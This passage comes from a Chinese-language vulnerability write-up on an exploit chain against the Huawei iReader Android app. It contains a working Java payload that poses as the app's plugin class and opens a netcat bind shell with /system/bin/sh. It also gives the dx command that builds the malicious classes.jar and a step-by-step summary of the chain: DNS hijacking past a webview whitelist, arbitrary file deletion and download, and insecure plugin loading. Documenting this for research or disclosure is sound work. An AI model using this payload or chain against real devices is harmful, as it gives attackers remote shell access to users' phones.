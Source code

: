 
1. setTimeout所延迟的时间必须是根据自己VPS连接速度来设定。
2. 里面有两个FILE_ID，必须保证对应相等。

#### classes.jar构造Payload如下:

``` java
package com.zhangyue.iReader.Plug.Service;

import android.util.Log;
import java.io.IOException;

public class DocFeature extends Thread{
    public DocFeature() {
        run();
        Log.e("ATTACKER","RUNNING ARBITRARY CODE!");
    }

    @Override
    public void run() {
        String command = "nc -l -p 28888 -e /system/bin/sh";
        Runtime runtime = Runtime.getRuntime();
        try {
            runtime.exec(command);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
Build后,在Android Studio工程下,找到**/app/build/intermediates/classes/debug**目录,然后执行以下命令生成jar.

`dx --dex --output=/Downloads/classes.jar com/zhangyue/iReader/Plug/Service/DocFeature.class`

这里有小坑:

1. 代码中由于classpath的原因,因此无法在代码中直接使用new Thread去创建线程。
2. 执行dx命令时,必须是在完整的结构目录路径下。 
3. nc命令需要下载busyBox.

#### 漏洞利用效果
![](/Users/tasfa/Desktop/桌面/漏洞研究/APP漏洞/华为IReader漏洞/last.gif) 

备注: 完整的利用视频时间较长,因此剪辑掉等待的部分。  

### 0x04 总结
1. 诱导用户访问恶意网站(exploit.html)
2. 使用DNS劫持或其他方式,绕过internal_webview的域名白名单限制,使其加载恶意页面(exploit2.html)
3. 从而调用起iReader的ActivityWeb,使其加载恶意攻击页面(exploit3.html)
4. exploit3.html首先删除可被控制的classes.jar（任意删除文件漏洞）
5. 接着下载恶意的classes.jar（任意下载文件漏洞）
6. 最后使用下载txt文件的方式触发App加载classes.jar（不安全组件加载）
7. 最终触发payload执行,攻击者获取权限.


### 0x05 参考
[Android插件化开发之DexClassLoader动态加载dex、jar小Demo](https://blog.csdn.net/u011068702/article/details/53263442)



